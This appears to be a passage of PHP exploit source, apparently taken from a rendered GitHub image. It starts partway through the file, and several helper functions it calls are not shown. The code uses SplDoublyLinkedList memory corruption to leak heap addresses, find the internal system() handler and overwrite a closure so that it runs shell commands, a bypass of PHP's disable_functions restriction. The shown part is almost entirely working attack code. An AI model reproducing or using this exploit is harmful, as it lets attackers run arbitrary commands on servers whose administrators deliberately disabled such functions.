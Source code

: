 ```
}
function bypass($elementAddress, &$a) {
    global $s;
    if (!$closureChunkAddress = getClosureChunk($a, $elementAddress)) {
        die("[!]Get Closure Chunk Address Failed");
    }
    $closure_object = leak($a, $closureChunkAddress + 0x18);
    echo "[+]Closure Object: " . dechex($closure_object) . "\n";
    $closure_handlers = leak($a, $closure_object + 0x18);
    echo "[+]Closure Handler: " . dechex($closure_handlers) . "\n";
    if(!($system_address = getSystem($a, $closure_handlers))) {
        die("[!]Couldn't determine system address");
    }
    echo "[+]Find system's handler: " . dechex($system_address) . "\n";
    i2s($a, 0x08, 0x506, 7);
    for ($i = 0;$i < (0x130 / 0x08);$i++) {
        $data = leak($a, $closure_object + 0x08 * $i);
        i2s($a, 0x00, $closure_object + 0x30);
        i2s($s -> current(), 0x08 * $i + 0x100, $data);
    }
    i2s($a, 0x00, $closure_object + 0x30);
    i2s($s -> current(), 0x20, $system_address);
    i2s($a, 0x00, $closure_object);
    i2s($a, 0x08, 0x108, 7);
    echo "[+]Executing command: \n";
    ($s -> current())("php -v");
}
function canRead($maps, &$a) {
    global $s;
    if (!$chunkAddress = getPHPChunk($maps)) {
        die("[!]Get PHP Chunk Address Failed");
    }
    i2s($a, 0x08, 0x06, 7);
    if (!$elementAddress = getElement($a, $chunkAddress)) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}
function cantRead(&$a) {
    global $s;
    i2s($a, 0x08, 0x06, 7);
    if (!isset($_GET["test1"]) && !isset($_GET["test2"])) {
        die("[!]Please try to get address of PHP Chunk");
    }
    if (isset($_GET["test1"])) {
        die(dechex(bomb1($a)));
    }
    if (isset($_GET["test2"])) {
        $elementAddress = bomb2($a);
    }
    if (!$elementAddress) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}
$s = new SplDoublyLinkedList();
$s -> push(new Trigger());
$s -> push("Twings");
$s -> push(function($x){});
for ($x = 0;$x < 0x100;$x++) {
    $s -> push(0x1234567812345678);
}
$s -> rewind();
```